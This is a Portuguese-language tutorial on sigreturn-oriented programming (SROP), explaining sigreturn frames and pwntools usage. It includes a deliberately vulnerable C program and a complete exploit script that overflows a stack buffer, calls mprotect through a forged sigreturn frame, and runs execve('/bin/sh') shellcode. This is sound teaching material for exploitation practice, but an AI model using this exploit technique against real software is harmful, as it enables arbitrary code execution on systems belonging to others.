

# SROP

# Teoria

Essa técnica que permite voce tornar a stack executável com somente 2 gadgets!

A técnica depende da maneira como sistemas `UNIX` cuidam dos seus processos!

Caso voce precise de uma revisão em [mprotect + ret2shellcode](https://0xturazzi.github.io/book/stack/ret2libc/intro.html#mprotect--ret2shellcode) :D


## Processos e Signals
## Sigreturn
- [tutorialspoint](https://www.tutorialspoint.com/unix_system_calls/sigreturn.htm)
- [man sigreturn](https://man7.org/linux/man-pages/man2/sigreturn.2.html)

Quando o processo e interrompido, o kernel cria um `stack frame` 
para o `signal handler` (independentemente de padrão, ou 
implementado pelo programa)... Semelhantemente a quando ocorre uma 
`call` !

Assim como em funções (aonde os registers `non-scratch` precisam 
ser salvos), para criar o `signal handler` antes precisamos salvar 
o estado atual usando um struct `sigreturn context` !




[Fonte imagem: amriunix](https://amriunix.com/img/Sigreturn-oriented-programming-SROP/sigcontext_structure.jpg)

Para retornar, o `signal handler` nao pode usar um simples `ret`, 
portanto usando a `syscall sigreturn` (`rax` = `0xf`)

A syscall era consumir o `sigreturn context` e continuar execução 
normalmente!

Pera ai, e se nos criarmos um `sigreturn context` falso e chamarmos
essa syscall manualmente????? Como se nos fossemos um 
`signal handler` retornando?????

## Fake

Para facilitar a criação desse struct, podemos usar o nosso 
amigo pwntools: [pwntools SROP](https://docs.pwntools.com/en/dev/rop/srop.html)

Criando um struct vazio, e preenchendo-o!

```py
frame = SigreturnFrame(arch="amd64")
frame.rax = 0xa
frame.rsi = 0x10
frame.rdx = 1234
frame.rip = 123
```
> OBS: O struct e dependente da arquitetura, por exemplo, os 
> registers presente num processador ARM sao diferentes de um amd

> OBS 2: Voce nao coloca p64() nos valores, se nao buga sei la

Agora, nos somente precisamos de uma chain que chame `sigreturn`

Eu imagino que voce possa chamar o wrapper em libc, mas para 
chamar a syscall basta executar!

```x86asm
mov rax, 0xf  ; 15
syscall       ; ou int_80 em 32 bits sei la
```

# Exemplo
## srop.c
- [amriunix](https://amriunix.com/post/sigreturn-oriented-programming-srop/)
- [0x00sec](https://0x00sec.org/t/srop-signals-you-say/2890)

```C
#include <stdio.h>
#include <stdlib.h>
// gcc srop.c -o srop -no-pie -fno-stack-protector
void syscall_(){
       __asm__("syscall; ret;");
}

void set_rax(){
       __asm__("movl $0xf, %eax; ret;");
}

int main(){
       // ONLY SROP!
       char buff[100];
       printf("Buff @%p, can you SROP?\n", buff);
       read(0, buff, 5000);
       return 0;
}
```

## Exploit
```py
#!/usr/bin/python3
from pwn import *


elf = context.binary = ELF("./srop")

io = process(elf.path)
io.recvuntil('@')

stack_leak = int(io.recv(14),16)
log.info("Stack Leak: " + hex(stack_leak))

io.recvuntil("?\n")

# Pular Func Prologo
elf.sym.syscall_ += 4
# pwndbg> disassemble syscall_ 
# Dump of assembler code for function syscall_:
#     0x0000000000401132 <+0>:	push   rbp
#     0x0000000000401133 <+1>:	mov    rbp,rsp
#     0x0000000000401136 <+4>:	syscall 
#     0x0000000000401138 <+6>:	ret    
#     0x0000000000401139 <+7>:	nop
#     0x000000000040113a <+8>:	pop    rbp
#     0x000000000040113b <+9>:	ret    

elf.sym.set_rax += 4 
# pwndbg> disassemble set_rax 
# Dump of assembler code for function set_rax:
#      0x000000000040113c <+0>:	push   rbp
#      0x000000000040113d <+1>:	mov    rbp,rsp
#      0x0000000000401140 <+4>:	mov    eax,0xf
#      0x0000000000401145 <+9>:	ret    
#      0x0000000000401146 <+10>:	nop
#      0x0000000000401147 <+11>:	pop    rbp
#      0x0000000000401148 <+12>:	ret    


payload = b""
payload += asm(shellcraft.execve("/bin/sh\x00"))
payload += b"A"*(120 - len(payload))
payload += p64(elf.sym.set_rax)
payload += p64(elf.sym.syscall_)        # sigreturn syscall

frame = SigreturnFrame(arch="amd64")
frame.rax = 0xa                         # mprotect syscall
frame.rdi = (stack_leak >> 12) << 12    # Addr
frame.rsi = 0x21000                     # Size
frame.rdx = 7                           # Perms
frame.rip = elf.sym.syscall_            # syscall (mrprotect); Ret
frame.rsp = stack_leak + len(payload) + len(frame) # ret addr
                                        #              \\  
payload += bytes(frame)                 #              \\
payload += p64(stack_leak)              #   <------------
                                        #
                                        # stack_leak ---> shellcode


io.sendline(payload)
io.interactive()
```